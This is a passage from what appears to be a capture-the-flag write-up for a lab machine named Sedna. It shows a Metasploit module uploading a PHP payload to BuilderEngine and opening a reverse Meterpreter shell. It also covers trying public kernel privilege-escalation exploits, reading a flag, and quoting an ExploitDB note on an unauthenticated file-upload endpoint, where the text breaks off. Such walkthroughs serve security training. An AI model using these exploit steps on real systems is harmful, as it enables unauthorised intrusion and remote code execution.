 Ran it and got a Meterpreter shell:

``` 
msf exploit(multi/http/builderengine_upload_exec) > run

[*] Started reverse TCP handler on 192.168.145.133:8000 
[+] Our payload is at: ppWvWjKRuV.php. Calling payload...
[*] Calling payload...
[*] Meterpreter session 1 opened (192.168.145.133:8000 -> 192.168.145.128:53518) at 2018-11-16 15:21:54 -0500
[+] Deleted ppWvWjKRuV.php

meterpreter > 
```

The kernel is old, so plenty of privilege escalations should be available:

``` 
meterpreter > sysinfo
Computer    : Sedna
OS          : Linux Sedna 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686
Meterpreter : php/linux

meterpreter > cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.1 LTS"
```

I used Searchsploit to look for Ubuntu 14.04 exploits and went with the [37292.c overlayfs exploit](https://www.exploit-db.com/exploits/37292/)/ I downloaded it to the machine, compiled it, ran it..and surprise, no root! I also tried the Apport exploit, still no luck. While looking around though, I did find the low privilege flag:

``` 
meterpreter > cat /var/www/flag.txt
bfbb7e6e6e88d9ae66848b9aeac6b289
```

Before continuing with rooting the machine, I went back getting a shell without Metasploit.

## Low privilege shell - manual

Here's the ExploitDB variant of arbitrary file upload:

``` 
cat 40390.php 
<!-- 
# Exploit Title: BuilderEngine 3.5.0 Remote Code Execution via elFinder 2.0
# Date: 18/09/2016
# Exploit Author: metanubix
# Vendor Homepage: http://builderengine.org/
# Software Link: http://builderengine.org/page-cms-download.html
# Version: 3.5.0
# Tested on: Kali Linux 2.0 64 bit
# Google Dork: intext:"BuilderEngine Ltd. All Right Reserved"

1) Unauthenticated Unrestricted File Upload:

	POST /themes/dashboard/assets/plugins/jquery-file-upload/server/php/

	Vulnerable Parameter: files[]

	We can upload test.php and reach the file via the following link:
	/files/test.php
-->
<html>
```
